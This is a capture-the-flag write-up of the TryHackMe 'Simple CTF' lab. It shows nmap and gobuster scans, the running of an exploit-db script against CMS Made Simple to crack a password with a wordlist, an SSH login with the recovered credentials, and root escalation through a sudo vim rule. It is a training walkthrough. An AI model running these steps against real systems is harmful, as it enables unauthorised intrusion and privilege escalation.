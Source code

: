 ```yaml
---
title: "Simple CTF TryHackMe"
date: "07-22-2021"
author: "Reda BELHAJ"
summary: "Simple CTF is a beginner level boot2root room from TryHackme made by Mr.Seth6797."
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/Simple/Simple.png"
---
```


## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
nmap 10.10.198.35 -sC 
```

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 13:14 EDT
Nmap scan report for 10.10.198.35
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.174.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

Nmap done: 1 IP address (1 host up) scanned in 40.71 seconds

```

The “Nmap Output” displayed `2` services running under port 1000 and ssh service running on the higher port.

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.198.35  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php
```

![Gobuster]("/images/Simple/gobuster.png")

## Exploring 

Browsing to ***http://10.10.198.35/simple*** gives us the version of CMS Made Simple:

![Version]("/images/Simple/version.jpg")

I then searched for the cve on [exploit-db](https://www.exploit-db.com/exploits/46635) and found the cve with the exploit:

![CVE]("/images/Simple/cve.jpg")

## Exploiting

Then I run the exploit using python (version 2.7) inside a virtual environment:

```
python cms_pa.py -u http://10.10.198.35/simple/ -c -w rockyou.txt
```

![Password]("/images/Simple/password.jpg")

## User Flag

And now I tried to access SSH with the credentials that We found:

```
mitch@secret
```

```
ssh -p 2222 mitch@10.10.198.35
```

```
G00d *************
```

## Root Flag

So now I tried the infamous `sudo -l` comand to privilege escalate the system

```
sudo -l
```
And i found that **mitch** can run vim with root privileges with ***NOPASSWD***

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

![SUID]("/images/Simple/suid.jpg")

And now we're root:

```
W3ll d*****************
```